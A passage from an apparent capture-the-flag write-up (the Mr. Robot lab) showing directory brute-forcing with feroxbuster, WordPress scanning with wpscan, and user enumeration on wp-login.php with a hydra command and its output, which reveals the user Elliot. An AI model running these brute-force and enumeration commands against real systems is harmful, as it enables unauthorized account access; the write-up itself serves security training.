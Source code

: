 ```shell
https://10.10.22.59/key-1-of-3.txt
```

### fsocity.dic
If we visit the following URL, we will download a file called fsocity.dic:

```shell
https://10.10.22.59/fsocity.dic
```

If we check the content of the file, we will notice what it seems to be a wordlist.

We can use this to bruteforce usernames and passwords.

### Feroxbuster Directory Brute-force to find WordPress
Let's use Feroxbuster to brute-force and enumerate directories. Maybe we can find a login portal where we can enter a username and password:

```shell
feroxbuster -u http://10.10.22.59/
```

Looking at the results of Feroxbuster, it seems like the website is using WordPress.

We can reach the login portal of WordPress through the following URL:
```shell
http://10.10.22.59/wp-login.php
```

If we enter any username and password, we will get a message indicating invalid username.

We tried to enumerate WordPress users with wpscan but werent successful:

```shell
wpscan --url http://10.10.22.59/
wpscan --url http://10.10.22.59/ -e u
```

# Slow Method to get Credentials of Elliot
### Using fsocity.dic to enumerate valid users
Now that we found a way to access a login portal, we can try to enumerate valid users using fsocity.dic and hydra with the following command:

```shell
hydra -L fsocity.dic -p 123453453 10.10.22.59 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"
```

We got a valid user:

```shell
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-09 23:50:31
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://10.10.22.59:80/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username
[80][http-post-form] host: 10.10.22.59   login: Elliot   password: 123453453
[STATUS] 1983.00 tries/min, 1983 tries in 00:01h, 856252 to do in 07:12h, 16 active
[80][http-post-form] host: 10.10.22.59   login: elliot   password: 123453453
```
